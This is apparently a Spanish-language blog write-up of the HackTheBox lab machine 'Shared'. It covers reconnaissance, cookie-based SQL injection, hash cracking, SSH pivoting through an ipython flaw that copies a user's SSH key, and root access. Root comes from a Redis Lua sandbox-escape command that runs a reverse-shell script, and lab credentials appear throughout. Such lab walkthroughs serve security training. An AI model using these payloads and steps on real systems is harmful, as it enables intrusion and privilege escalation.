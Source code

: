 ```yaml
---
layout: post
title: "Write Up Shared. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,SQLi,BurpSuite,Hashes,RCE,SSH,Web,Vulnerability-Assessment,Database,Injection,Source-Code-Analysis,Outdated-Software,Reversing,Redis,MariaDB,Chisel,Bash,Reconnaissance,Web-Site-Structure-Discovery,Binary-Analysis,Password-Cracking,Dictionary-attack,Port-Forwarding,Weak-Credentials,Clear-Text-Credentials,eWPT,OSCP] 
image:
  path: /assets/img/shared/shared.png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.172 -oA allports -Pn
```

![list](/assets/img/shared/A-2022-11-22-12-00-17.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -p22,80,443 -sV -sC 10.10.11.172 -oN target
```

![list](/assets/img/shared/A-2022-11-22-12-01-25.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros tambien ispeccionamos la web ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


Ademas de haver encontrado en el escaneo de Nmap el nombre de dominio shared.htb que lo meteremos en el /etc/host y procederemos a fuzzear  ademas tambien nos dice que es un gestor de contenido  prestashop.


Husemando la pagina tambien azoma un subdominio checkout.shared.htb que tambien nos aparece a la hora de fuzzear.


![list](/assets/img/faculty/Kali-2022-09-06-23-40-34.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ingresamos el dominio al /etc/hosts. 


Fuzzeamos la web con gobuster o dirbuster.


```bash
dirsearch -u https://shared.htb
```


```bash
wfuzz -c -f subdomains.txt -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://shared.htb/" -H "Host: FUZZ.shared.htb"
```

![list](/assets/img/shared/A-2022-11-22-12-14-16.png){:.lead width="800" height="100" loading="lazy"}


Despues de provar multiples cosas observamos que tenemos dos cookies una de prestashob y otra custom card depues de juagar con la de custon card notamos que es vulnerable a sql injection haci que en la web mismo probamos las tipicas querys para obtener informacion.


![list](/assets/img/shared/A-2022-11-22-12-23-09.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Obtenemos el nombre de la base de datos que es `checkout`. 


Para mas comodidad nos abrimos el burpsuite para inteceptar y escribir las consultas mejor.


![list](/assets/img/shared/A-2022-11-22-12-33-19.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Obtenemos el nombre de tabla que es `user`. 


![list](/assets/img/shared/A-2022-11-22-12-33-53.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Obtenemos el nombre de de usuario que es `james_mason`.  


![list](/assets/img/shared/A-2022-11-22-12-34-16.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Obtenemos un hash que procedemos crakear con john the ripper y que es `Soleil101`.  


Ya con usuario y password nos conectamos atraves de SSH y ya podemos buscar la flag de usuario no privileguiado en el escritorio del usuatio `dan_smith` por lo que deberos hacer un user-pivoting para con vertirnos en dan y poder ver la flag de user.txt.


![list](/assets/img/shared/A-2022-11-22-12-36-13.png){:.lead width="800" height="100" loading="lazy"}


***

## Explatation and Escalation Privileges


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, ademas hasta que se ejecute los anteriores podemos buscar los permisos con el comado find con el siguite comando.


```bash
find /-group developer 2>/dev/null
```


{:.note}
Nos aparece la ruta `/opt/scripts_review`, no metemos pero esta vacio pero tenemos capaciada de escritura.


Si miramos con pspy los procesos podemos ver que el uid 1001 ejecuta algunas cosas muy interesantes.


![list](/assets/img/shared/A-2022-11-22-12-44-20.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Notamos que ipython esta ejecutando un scrip asi que vuscando vulnerabilidades sobre [ipython] aparecio esta.


[ipython]:(https://github.com/ipython/ipython/security/advisories/GHSA-pq7m-3gw7-gq5x)


Siguendo la logica de la vulnerabilidad hacemos lo ismo pero en la misma ruta y en ver de inprimir algo nos vamos a copiar la `id_rsa` de usuario dan_smith en la ruta `/dev/shm/key`.


![list](/assets/img/shared/Captura%20de%20pantalla%20(280).png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos la vamos a copiar en la maquina atacate con el nombre de `ir_rsa` y le vamos da dar permiso `chmod 600 id_rsa` y nos vamos a conectar por ssh como `ssh -i dam_smith@10.10.11.191`.


![list](/assets/img/shared/A-2022-11-22-13-02-05.png){:.lead width="800" height="100" loading="lazy"}


Como el usuario `dan_smith` ya podemos ver la flag de bajos privilegios.


![list](/assets/img/shared/A-2022-11-22-13-03-43.png){:.lead width="800" height="100" loading="lazy"}


Podemos ver que tenemos el grupo `sysadmin`, también que con ese grupo existe un binario.


```bash
find / -group sysadmin 2>/dev/null
```


Esta ejecutando un binario `/usr/local/bin/redis_connector_dev` que ejecutarlo vemos que se autentica a redis por lo que debe tener una contraseña, por lo que nos lo tranferimos a la maquina atacante y lo ejecutamos pero nos ponemos con netcat a la ecucaha de la siguiente manera `nc -lvnp 6379` y nos dara la contraseña `F2WHqJUz2WEz=Gqq`.


Nos conectamos con [redis-cli], buscando un poco logramos encontrar una vulnerabilidad que si la explotamos conseguimos ejecutar comandos, hacemos una reverse shell y somos root.


```bash
redis_cli
```


El lo suguiente ponemos `AUTH F2WHqJUz2WEz=Gqq`.


Nos creamos un archivo sh que ejcute una reverseshell.  


![list](/assets/img/shared/Kali-2022-09-07-13-06-11.png){:.lead width="800" height="100" loading="lazy"}


Y con lo que leimos en la vulnerabilidad ejecutamos el comando.


```shell
eval 'local l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = l(); local f = io.popen("cat /dev/shm/sh | bash"); local res = f:read("*a"); f:close(); return res' 0
```


{:.note}
Debemos ponernos a la escucha con netcat en el puerto 443.


[redis-cli]:(https://thesecmaster.com/how-to-fix-cve-2022-0543-a-critical-lua-sandbox-escape-vulnerability-in-redis/)


![list](/assets/img/shared/Kali-2022-09-07-13-07-53.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ya podemos buscar la flag de root en su escritorio.


***

```shell
🎉 Felicitaciones ya has comprometido Shared de HackTheBox 🎉
```
{:.centered}
***

Back to [Certification eWPT](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSCP](){:.heading.flip-title}
{:.read-more}